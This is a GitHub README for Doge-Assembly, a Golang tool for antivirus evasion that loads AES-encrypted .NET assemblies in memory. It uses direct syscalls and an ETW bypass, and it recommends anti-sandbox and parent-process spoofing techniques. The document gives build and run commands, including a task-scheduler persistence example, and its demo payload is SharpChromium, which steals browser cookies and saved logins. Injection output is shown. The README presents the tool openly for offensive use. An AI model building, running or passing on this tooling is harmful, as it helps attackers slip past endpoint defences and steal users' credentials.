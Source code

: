 ![Doge-Assembly](https://socialify.git.ci/timwhitez/Doge-Assembly/image?description=1&font=Raleway&forks=1&issues=1&language=1&logo=https%3A%2F%2Favatars1.githubusercontent.com%2Fu%2F36320909&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

- 🐸Frog For Automatic Scan

- 🐶Doge For Defense Evasion&Offensive Security

# Doge-Assembly
Golang evasion tool, execute-assembly .Net file

## Intro
Are you still worrying about antivirus?


## feature
更新etw bypass相关代码，请重新获取依赖

go get -u github.com/timwhitez/Doge-Assembly/assembly

使用Golang execute assembly加载C#程序

C#程序编译为静态资源文件，使用AES加密，使用时最好替换自定义密钥

clr.dll进程注入的过程采用direct syscall进行api调用

若想增强免杀效果可自行添加:
```
反沙箱反调试等相关代码

Blockdlls

parent-process-id-spoofing
```

### 写的较为仓促，希望能有大佬帮忙优化


## Usage
注意，若源程序需要多个参数执行，请使用如下方式:
```
Doge-Assembly.exe '-t schtask -c \"C:\Windows\System32\cmd.exe\" -a \"/c calc\" -n Test -m add -o hourly'
```

```
cd encrypt
go build

you can change sharp.exe to other C# exe file

./encrypt.exe ./sharp.exe

copy sharp.exe.cipher to bin/

cd ..
go get -u github.com/timwhitez/Doge-Assembly/assembly
go-bindata data/
go build

```

```
demo sharp.exe is SharpChromium.exe
```


## ref
资源文件加载:

- https://github.com/go-bindata/go-bindata

golang 的 execute assembly 实现:

- https://github.com/lesnuages/go-execute-assembly

bananaphone, golang hells gate:

- https://github.com/C-Sto/BananaPhone

etw bypass:

-https://blog.xpnsec.com/hiding-your-dotnet-etw/

-https://idiotc4t.com/defense-evasion/memory-pacth-bypass-etw


## todo
目前兼容性存在少许问题


## screenshot
```
PS D:\Doge-Assembly> .\Doge-Assembly.exe
Decrypt Success...

dll: 19968
bin: 584704

Dynamic Evasion
Please Wait for 10 seconds......
2481571495936
BananaPhone: Allocated 20480bytes at 0x241C9300000
BananaPhone: Wrote 20480bytes at 0x241C9300000
2481571561472
BananaPhone: Allocated 585728bytes at 0x241C9310000
BananaPhone: Wrote 584715bytes at 0x241C9310000
2021/03/09 16:37:29 Got thread handle: 404

out:
[X] Invalid argument passed:

Usage:
    .\SharpChromium.exe arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chromium Cookies, History and Logins.
    full      - The same as 'all'
    logins    - Retrieve all saved credentials that have non-empty passwords.
    history   - Retrieve user's history with a count of each time the URL was
                visited, along with cookies matching those items.
    cookies [domain1.com domain2.com] - Retrieve the user's cookies in JSON format.
                                        If domains are passed, then return only
                                        cookies matching those domains. Otherwise,
                                        all cookies are saved into a temp file of
                                        the format "%TEMP%\$browser-cookies.json"


err:

```

# 🚀Star Trend
[![Stargazers over time](https://starchart.cc/timwhitez/Doge-Assembly.svg)](https://starchart.cc/timwhitez/Doge-Assembly)
